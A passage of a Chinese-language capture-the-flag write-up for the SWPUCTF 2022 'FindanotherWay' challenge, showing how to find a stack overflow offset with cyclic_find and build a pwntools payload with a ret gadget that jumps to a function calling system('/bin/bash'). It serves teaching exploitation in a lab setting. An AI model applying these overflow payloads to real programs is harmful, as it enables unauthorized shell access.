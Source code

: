 2.  **分析崩溃时的栈**：你使用 GDB 等工具来分析崩溃时的栈信息。假设你在栈上发现了一个值 `0x61616161`，这对应着字符 `A` 的 ASCII 编码。

3.  **找到偏移量**：通过 `cyclic_find` 函数，查找该值在填充模式中的位置，也就是溢出发生的位置。例如：

    ```python
    offset = cyclic_find(0x61616161)
    print(f"偏移量是: {offset}")
    ```

4.  **构造正确的 payload**：根据计算出的偏移量，构造一个 payload 来覆盖返回地址，执行你的攻击。

    ```python
    padding = b'A' * offset
    payload = padding + p64(0x40101A) + p64(youfindit_addr)
    p.sendline(payload)
    ```

------

#### 小结

-   **`pattern_create`**：用于生成一个易于识别的填充模式（例如，包含唯一字符的字符串），用于填充缓冲区。
-   **`pattern_offset`** 或 **`cyclic_find`**：用于分析栈信息，帮助定位缓冲区溢出时返回地址的偏移量。

这种方法可以帮助你准确定位栈上的溢出位置，从而构造一个正确的 payload 执行你的攻击（如执行函数调用、获取 shell 等）。

### 关于gadget跳转地址的思考

上述过程在vuln函数ret处跳转到0x401250，会导致工作栈把0x401250处当做调用处的下一条语句，进而直接执行`youfindit`函数的下面这几条语句（跳转至401250是最靠后的地址，当然本题也可以跳转至`youfindit`函数的前面其他地方）

```assembly
0x0000000000401250 <+32>:    lea    rdi,[rip+0x113a]        # "/bin/bash"，rdi为调用函数的第一个参数传入system函数
0x0000000000401257 <+39>:    mov    eax,0x0
0x000000000040125c <+44>:    call   0x401090 <system@plt>
...
```

实际栈内的操作是这样的：

![\[SWPUCTF 2022 新生赛]FindanotherWay-graph](images/[SWPUCTF 2022 新生赛]FindanotherWay-graph.png)

给`gets`函数再加上一个ret也可以成功跳转，不过变相的将栈拉长了

![\[SWPUCTF 2022 新生赛]FindanotherWay-graph](images/[SWPUCTF 2022 新生赛]FindanotherWay-graph2.png)

## 五、本地工具环境配置

### python pwn库

```shell
pip install pwn
```

